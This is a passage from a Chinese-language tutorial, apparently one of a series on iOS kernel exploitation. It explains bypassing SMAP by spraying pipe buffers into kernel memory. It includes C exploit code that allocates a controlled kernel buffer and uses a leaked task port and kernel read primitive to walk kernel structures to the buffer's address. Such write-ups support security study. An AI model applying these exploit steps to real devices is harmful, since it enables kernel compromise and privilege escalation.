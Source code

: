 根据 Wikipedia 上对 SMAP 的描述[1]：
> Supervisor Mode Access Prevention (SMAP) is a feature of some CPU implementations such as the Intel Broadwell microarchitecture that allows supervisor mode programs to optionally set user-space memory mappings so that access to those mappings from supervisor mode will cause a trap. This makes it harder for malicious programs to "trick" the kernel into using instructions or data from a user-space program.

即 SMAP 使得处于 Supervisor Mode 的程序（例如 Kernel）在访问用户空间内存时会触发异常，这使得我们在用户态 fake 的数据不能直接被内核访问。为了绕过这一限制，我们必须设法在内核中分配可控的区域。

## Pipe IO System Call
幸运的是操作系统提供了 Pipe IO System Call，根据 GeeksforGeeks 上对 Pipe 的描述[2]：
> Conceptually, a pipe is a connection between two processes, such that the standard output from one process becomes the standard input of the other process. In UNIX Operating System, Pipes are useful for communication between related processes(inter-process communication).

即 pipe 是两个进程间通信的管道，一个进程的标准输出将作为另一个进程的标准输入。使用 pipe 函数可以得到一对读写句柄 fds，如下图所示（图片来自 GeeksforGeeks）：

![图片来自 GeeksforGeeks](https://user-gold-cdn.xitu.io/2019/12/8/16ee467a2c9f3e84?w=392&h=239&f=png&s=27026)

使用 pipe 读写时，由于要实现跨进程共享内存，缓冲区会被分配到内核中，在用户态拿到的是 fd 句柄，而 fd 对应的缓冲区地址被记录在了任务端口上，基于已泄露的 `task port` 和前序文章中提到的 Kernel Read Primitive 即可拿到内核中的缓冲区地址。此时我们已经间接获得了一块内核中的可控区域，关键代码如下（省略了错误检查）：

```c
// here we'll create a pair of pipes (4 file descriptors in total)
// first pipe, used to overwrite a port pointer in a mach message
int fds[2];
ret = pipe(fds);
if (ret) {
    printf("[-] failed to create pipe\n");
    goto err;
}

// make the buffer of the first pipe 0x10000 bytes (this could be other sizes, but know that kernel does some calculations on how big this gets, i.e. when I made the buffer 20 bytes, it'd still go to kalloc.512
uint8_t pipebuf[0x10000];
memset(pipebuf, 0, 0x10000);

write(fds[1], pipebuf, 0x10000); // do write() to allocate the buffer on the kernel
read(fds[0], pipebuf, 0x10000); // do read() to reset buffer position
write(fds[1], pipebuf, 8); // write 8 bytes so later we can read the first 8 bytes (used to verify if spraying worked)
```

上述代码在内核中创建了一个大小为 64K 的缓冲区，需要注意的是 fd 的读写平衡，每次 write 操作都会将 cursor 向后移动，每次 read 操作都将把 cursor 向前移动。这里先通过一次平衡的读写在内核中创建了缓冲区，随后写入 8 字节，这是为了方便之后从中读回第一个 port，即我们的 fake port。

## 获取 Pipe Buffer Address
基于 `task port` 和 fd 句柄很容易就能拿到 pipe buffer 的地址，关键代码如下：
```c
self_port_addr = task_self_addr(); // port leak primitive
uint64_t task = rk64_check(self_port_addr + koffset(KSTRUCT_OFFSET_IPC_PORT_IP_KOBJECT));
self_task_addr = task;
uint64_t proc = rk64_check(task + koffset(KSTRUCT_OFFSET_TASK_BSD_INFO));
self_proc_addr = proc;
uint64_t p_fd = rk64_check(proc + koffset(KSTRUCT_OFFSET_PROC_P_FD));
uint64_t fd_ofiles = rk64_check(p_fd + koffset(KSTRUCT_OFFSET_FILEDESC_FD_OFILES));

uint64_t fproc = rk64_check(fd_ofiles + fds[0] * 8);
uint64_t f_fglob = rk64_check(fproc + koffset(KSTRUCT_OFFSET_FILEPROC_F_FGLOB));
uint64_t fg_data = rk64_check(f_fglob + koffset(KSTRUCT_OFFSET_FILEGLOB_FG_DATA));
uint64_t pipe_buffer = rk64_check(fg_data + koffset(KSTRUCT_OFFSET_PIPE_BUFFER));
printf("[*] pipe buffer: 0x%llx\n", pipe_buffer);
```
